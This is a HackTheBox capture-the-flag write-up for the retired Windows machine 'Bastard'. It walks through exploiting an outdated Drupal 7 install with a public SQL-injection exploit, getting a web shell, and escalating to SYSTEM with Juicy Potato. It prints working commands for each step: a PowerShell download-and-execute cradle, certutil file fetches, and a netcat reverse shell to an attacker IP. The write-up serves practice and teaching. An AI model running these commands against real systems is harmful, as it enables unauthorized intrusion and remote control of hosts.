




# Bastard

```
Platform    : HackTheBox
OS          : Windows
Difficulty  : Medium
Category    : Web / Known CVE / Token Impersonation
IP          : 10.129.5.131
```

---

## Summary

The target ran an outdated Drupal 7 installation, identified through
its publicly accessible `CHANGELOG.txt`. A known Drupal Services
module SQL injection vulnerability allowed inserting data as an
authenticated user, leading to a web shell and remote code execution
as `iusr`. From there, a PowerShell reverse shell was obtained despite
the host being fully isolated from the internet and running a legacy
PowerShell version. Enumerating privileges revealed
`SeImpersonatePrivilege` was enabled, which was abused with Juicy
Potato to coerce a SYSTEM-privileged service into authenticating
against a rogue COM server, yielding a SYSTEM shell.

---

## Reconnaissance

```
nmap -p- -sS --min-rate 5000 -vvv -n -Pn --open 10.129.5.131 -oN scan.txt
nmap -p 80,135 -sCV 10.129.5.131
```

Key findings:

- **Port 80** — Microsoft IIS 7.5, running Drupal 7 (confirmed via
  `http-generator` and a heavily populated `robots.txt`)
- **Port 135** — Microsoft Windows RPC



---

## Enumeration

The exposed `/CHANGELOG.txt` file (one of the many paths disallowed
in `robots.txt`, and therefore an obvious place to check) revealed
the exact Drupal version in use, which was searched against known
exploits:

```
searchsploit Drupal 7.x
```

This returned several Drupal 7 vulnerabilities, including a Services
module SQL injection allowing unauthenticated Remote Code Execution
(`php/webapps/41564.php`), which matched the identified version.

---

## Foothold

The exploit was retrieved and configured to point at the attacker's
machine:

```
searchsploit -m php/webapps/41564.php
```

Running it exploited the SQL injection to insert data as if from an
authenticated user, and dropped a PHP web shell on the target:

```
php 41564.php
```

```
Stored session information in session.json
Stored user information in user.json
File written: http://10.129.5.131/megapwned.php
```



Command execution was confirmed through the dropped web shell:

```
http://10.129.5.131/megapwned.php?cmd=whoami
```

```
nt authority\iusr
```



## From Web Shell to a TTY

A PowerShell reverse shell payload (Nishang's
`Invoke-PowerShellTcp.ps1`) was hosted locally and triggered through
the web shell:

```
http://10.129.5.131/megapwned.php?cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.143/PS.ps1')
```


This detail matters because of two environment constraints found
during this stage: the target ran **PowerShell 2.0**, which lacks the
`Invoke-WebRequest` (`iwr`) cmdlet, and the box was **fully isolated
from the internet**, with no DNS resolution available. `iwr` would
have failed outright on this PowerShell version regardless, but even
a DNS-dependent method would have failed here due to the network
isolation. `Net.WebClient`'s `downloadString()` method works around
both problems at once: it's available in PowerShell 2.0, and since it
was pointed directly at the attacker's IP address rather than a
hostname, no DNS resolution was ever needed.

Caught on a listener:

```
sudo rlwrap nc -lvnp 443
```

```
Windows PowerShell running as user BASTARD$ on BASTARD
PS C:\inetpub\drupal-7.54> whoami
nt authority\iusr
```



The user flag was readable from `dimitris`'s desktop:

```
PS C:\Users\dimitris\Desktop> type user.txt
36328499b9ed85597ab94d3588bd9c3d
```

---

## Privilege Escalation

Checking the current token's privileges:

```
whoami /priv
```

```
SeImpersonatePrivilege  Impersonate a client after authentication  Enabled
```

`SeImpersonatePrivilege` being enabled on a low-privileged service
account is a well-known local privilege escalation path: it allows
coercing a higher-privileged process into authenticating against a
rogue COM server, then cloning that authentication token.

**PrintSpoofer** was tried first, as it's often the simpler option for
this exact privilege — but it failed silently, giving no usable
output or error to work from. This was likely caused by named pipe
restrictions or an architecture mismatch (32-bit vs. 64-bit) inherited
from the web application pool process spawning the shell. Rather than
spend time debugging a silent failure, the decision was made to switch
tools and try **Juicy Potato** instead, which targets the same
privilege through a different technique (COM server + CLSID coercion
instead of named pipe impersonation).

Since the host had no internet access, the required tooling
(`JuicyPotato.exe`, `nc64.exe`) was transferred using `certutil.exe`, a
native Windows binary capable of fetching files without relying on
PowerShell's web cmdlets:

```
certutil.exe -urlcache -f http://10.10.14.143/JuicyPotato.exe JP.exe
```

Juicy Potato was run against the BITS CLSID, launching `cmd.exe` with
a Netcat callback on success:

```
.\JP.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\inetpub\drupal-7.54\privesc\nc64.exe 10.10.14.143 4444 -e cmd.exe" -t '*' -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"
```

```
[+] authresult 0
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
```

This spawned a rogue COM server on port `1337`; a SYSTEM-privileged
service authenticated against it, and Juicy Potato cloned that
token via `CreateProcessWithTokenW`, launching a SYSTEM-level shell
back to the attacker.

The root flag was then readable directly:

```
C:\Users\Administrator\Desktop>type root.txt
a19dc7a2b22aaefb24318a9669d4d5a4
```

---

## Lessons Learned

- Publicly exposed changelog or version files (`CHANGELOG.txt` here)
  remain one of the fastest ways to fingerprint an exact CMS version
  and jump straight to known exploits — always worth checking early,
  especially on older-looking installs.
- Legacy PowerShell versions and internet-isolated targets change
  which tools actually work: `Invoke-WebRequest` and DNS-based
  downloads can fail silently for reasons that have nothing to do
  with the exploit itself. `Net.WebClient` and IP-based URLs, or
  native binaries like `certutil.exe`, are reliable fallbacks worth
  knowing before assuming a foothold technique "doesn't work."
- `SeImpersonatePrivilege` enabled on a service account is close to
  an automatic path to SYSTEM on Windows — checking `whoami /priv`
  immediately after any foothold is a habit worth keeping, since it
  often shortens privilege escalation to a single known tool.
- When a known technique fails silently (PrintSpoofer here), it's
  worth noting *why* it likely failed before switching tools — even a
  quick guess (pipe restrictions, architecture mismatch) turns a dead
  end into a documented decision, which is far more useful on review
  than just "tried X, didn't work, moved to Y."

---

<sub>Write-up published after machine retirement, per HackTheBox disclosure policy.</sub>
